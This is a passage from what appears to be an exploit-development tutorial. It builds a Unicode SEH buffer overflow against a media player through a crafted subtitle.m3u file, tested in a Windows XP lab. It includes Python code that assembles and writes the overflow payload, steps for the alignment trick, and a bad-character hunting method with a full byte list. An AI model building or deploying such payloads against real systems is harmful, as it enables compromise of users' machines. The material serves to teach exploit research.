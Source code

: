 ```python
buffer = "\x62" * 12
junk2  = "\x90" * (6000 - len(junk+nseh+seh+adjust+buffer))

exploit = junk + nseh + seh + adjust + buffer + junk2
handler = open ("subtitle.m3u", "w")
handler.write(exploit)
handler.close()
```

The first of these instructions will absorb the \x00 from the \xc3 instruction and turn into our NOP instruction. The next 11 will not be executed and turn into \x62\x00:

[![](https://3.bp.blogspot.com/-IWdfeW7EiDY/UIx6uplkZzI/AAAAAAAAAD4/i5OvzZatjmk/s0/Windows+XP+Professional+SP2+-+VMware+Player_015.png)](https://3.bp.blogspot.com/-IWdfeW7EiDY/UIx6uplkZzI/AAAAAAAAAD4/i5OvzZatjmk/s0/Windows+XP+Professional+SP2+-+VMware+Player_015.png)

If all goes well when you execute the RETN instruction you should hit the first "\x90" and the display should look similar to mine:

[![](https://4.bp.blogspot.com/-cV0wjzW78x4/UIx9hNkZufI/AAAAAAAAAEI/Tpq0cpAQajA/s0/Windows+XP+Professional+SP2+-+VMware+Player_016.png)](https://4.bp.blogspot.com/-cV0wjzW78x4/UIx9hNkZufI/AAAAAAAAAEI/Tpq0cpAQajA/s0/Windows+XP+Professional+SP2+-+VMware+Player_016.png)

### Finding Bad Characters

Next we need to identify bad characters that will cause our exploit to fail. To do this do the following:

1.  Download generatecodes.pl from [https://exploit.co.il/wp-content/uploads/2010/05/generatecodes.txt](https://exploit.co.il/wp-content/uploads/2010/05/generatecodes.txt)
2.  Edit the code and remove the line:

1.  GetOptions('help|?|' => \\$help);

4.  Run the code with Perl and put the resulting output into a file.

Ok once you have done that its a simple matter of copy and pasting each line in place of the "\x90"s, then dumping the code in memory and checking that none of the bytes are corrupted or are missing/modified.

Here is the list of codes in case the code doesn't work for you:

"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e"
"\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d"
"\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c"
"\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b"
"\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a"
"\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59"
"\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77"
"\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86"
"\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95"
"\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4"
"\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3"
"\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1"
"\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe"
"\xff"
